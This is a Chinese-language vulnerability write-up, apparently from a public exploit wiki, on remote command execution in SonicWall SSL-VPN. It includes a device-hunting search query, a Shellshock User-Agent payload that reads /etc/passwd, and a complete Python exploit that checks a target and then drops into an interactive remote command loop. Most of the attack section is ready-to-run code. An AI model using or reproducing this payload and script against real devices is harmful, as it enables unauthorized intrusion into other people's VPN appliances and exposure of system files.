

# SonicWall SSL-VPN 远程命令执行漏洞

## 漏洞描述

SonicWall SSL-VPN 远程命令执行在1月24日被公开 EXP，此设备存在远程命令执行漏洞

## 漏洞影响

```
SonicWall SSL-VPN
```

## 网络测绘

```
app="SONICWALL-SSL-VPN"
```

## 漏洞复现

出现漏洞的文件为 **/cgi-bin/jarrewrite.sh**

```bash
#!/bin/bash

# jarrewrite.sh:
# Script takes a jar/class file and a working directory; modifies class files
# within the jar and repackages them.

USAGE_STR="Usage: $0 <jar/class file> <path-to-working directory>"

# Validate number of args
if [ $# -ne 2 ]; then
echo ${USAGE_STR};
exit -1;
fi

for param in $*; do
    if [ "$param" == "-h" ]; then
        echo ${USAGE_STR};
        exit 1;
    fi
done

# constants
BOUNDARY="-------------------------------------------------------------"
BASE_DIR=/tmp
JAVA_SRC=$1
WDIR=$2
CWD=`pwd`
FULL_JAVA_SRC_PATH=${BASE_DIR}/${WDIR}/${JAVA_SRC}
CLASSES_DIR=classes
META_INF_DIR=${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF
MANIFEST=${META_INF_DIR}/MANIFEST.MF
MANIFEST_DIGEST_FILE=${META_INF_DIR}/SWALL_SIGNATURE.SF
SIGNATURE_FILE=${META_INF_DIR}/SWALL_SIGNATURE.DSA
CODESIGNER_CRT=./../../var/cs_cert/httprpCodeSignerX509Crt.pem
CODESIGNER_PVTKEY=./../../var/cs_cert/httprpCodeSignerPvtkey.pem
DO_SIGN=0

if [ ! -f  ${FULL_JAVA_SRC_PATH} ];then
echo "File not found: ${FULL_JAVA_SRC_PATH}";
exit -2;
fi

if [ ${JAVA_SRC##*.} == "jar" ]
# Using bracket in variable substitution.
then

# organize
mkdir ${BASE_DIR}/$WDIR/$CLASSES_DIR

# unzip jar
unzip -d ${BASE_DIR}/${WDIR}/${CLASSES_DIR} ${FULL_JAVA_SRC_PATH};

# Simple sanity check to see if the JAR has already been signed. 
# FIXME: This is not a complete check,because the original JAR signature 
# has to be verified completely otherwise a malicious applet
# could access the local resources with SSL VPN signing it.

old_sf_files=`/bin/ls ${META_INF_DIR}/*.[sS][fF] `
old_sign_files=`/bin/ls ${META_INF_DIR}/*.[rRdD][sS][aA] `

for sf_file in $old_sf_files
do
	for sign_file in $old_sign_files
    do
        DO_SIGN=1;
        break
    done;
    break;
done

# remove all manifest info including signatures
# remove all that match mf|MF|sf|SF or dsa|DSA|rsa|RSA
rm -f ${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF/*.[sSmM][fF] ${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF/*.?[sS][aA]

OUTPUT_JAR="${FULL_JAVA_SRC_PATH}"

classfiles=`/usr/bin/find ${BASE_DIR}/${WDIR}/${CLASSES_DIR} -type f`

#New Manifest file
MANIFEST_MAIN_ATTR="Manifest-Version: 1.0\nCreated-By: 1.0 (SonicWALL Inc.)\n"

echo -e "Creating Manifest file ... " 
echo -e ${MANIFEST_MAIN_ATTR} > ${MANIFEST}

for file in $classfiles
do
	echo $BOUNDARY
	echo $file
	echo $BOUNDARY
	./jdasm $file $file

	#Update manifest file
	SHA1_MANIFEST_ENTRY_CLASS=`openssl dgst -sha1 -binary $file | openssl base64`
	MANIFEST_ENTRY="Name: ${file##${BASE_DIR}/${WDIR}/${CLASSES_DIR}/}\nSHA1-Digest: ${SHA1_MANIFEST_ENTRY_CLASS}\n"
	echo -e ${MANIFEST_ENTRY} >> ${MANIFEST}

	echo $BOUNDARY
done

if [ ${DO_SIGN} == 1 ]; then
echo -e "Creating Manifest Signature file and Signature block" >> $OUTLOG
/usr/sbin/sw_jarsigner -m ${MANIFEST} -s ${MANIFEST_DIGEST_FILE} -S ${SIGNATURE_FILE} -c ${CODESIGNER_CRT} -k ${CODESIGNER_PVTKEY}
fi

rm -f ${FULL_JAVA_SRC_PATH}
cd ${BASE_DIR}/${WDIR}/${CLASSES_DIR};
zip -r ${OUTPUT_JAR} *
cd ${CWD}

# clean
rm -Rf ${BASE_DIR}/${WDIR}/${CLASSES_DIR}

elif [ ${JAVA_SRC##*.} == "class" ]; then
# if file is a class

if [ ! -e  ${FULL_JAVA_SRC_PATH} ];then
echo "File not found: ${FULL_JAVA_SRC_PATH}";
exit -2;
fi
./jdasm ${FULL_JAVA_SRC_PATH} ${FULL_JAVA_SRC_PATH};
fi 

echo "Recursive Class Rewrite Completed."
exit 0;
```

这个文件存在命令注入漏洞，漏洞触发在 **Usage-Agent**

发送如下请求即可命令执行


```shell
GET https://xxx.xxx.xxx.xxx/cgi-bin/jarrewrite.sh
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
```

发送请求会下载一个文件，文件内容为命令执行的结果


## 漏洞POC

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: SonicWall SSL-VPN                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/cgi-bin/jarrewrite.sh"
    headers = {"User-Agent": "() { :; }; echo ; /bin/bash -c '%s'" % (cmd)}
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/cgi-bin/jarrewrite.sh \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/cgi-bin/jarrewrite.sh"
    headers = {"User-Agent": "() { :; }; echo ; /bin/bash -c '%s'" % (cmd)}
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)
```


